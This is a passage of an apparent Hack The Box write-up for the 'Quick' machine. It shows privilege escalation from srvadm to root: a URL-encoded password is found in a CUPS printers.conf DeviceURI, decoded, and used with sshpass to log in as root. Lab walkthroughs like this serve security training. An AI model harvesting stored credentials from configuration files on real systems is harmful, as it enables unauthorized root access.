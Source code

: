 ## srvadm -> root

After doing some enumeration we gat a `.cache` din `srvadm` dir and `printers.conf` in `conf.d` in it

```bash
srvadm@quick:~/.cache/conf.d$ ls -la
total 20
drwxr-xr-x 2 srvadm srvadm 4096 Mar 20 06:23 .
drwx------ 5 srvadm srvadm 4096 Mar 20 06:20 ..
-rw-r--r-- 1 srvadm srvadm 4569 Mar 20 06:20 cupsd.conf
-rw-r--r-- 1 srvadm srvadm 4038 Mar 20 06:23 printers.conf
srvadm@quick:~/.cache/conf.d$ 
```

On reading the content of printers.conf we can find a line

> DeviceURI https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer

On decoding this url we get plain text

```bash
https://srvadm@quick.htb:&ftQ4K3SGde8?@printerv3.quick.htb/printer
```
The `&ftQ4K3SGde8?` is the password for root user.

```bash
[vibhu@parrot]─[~/HTB/boxes/ROOTED/Quick]$ sshpass -p  "&ftQ4K3SGde8?" ssh root@quick.htb
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 2.0


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

54 packages can be updated.
28 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jul  8 08:59:41 2020 from 10.10.14.166
root@quick:~# id && whoami
uid=0(root) gid=0(root) groups=0(root)
root
root@quick:~# wc -c root.txt 
33 root.txt
root@quick:~# 
```
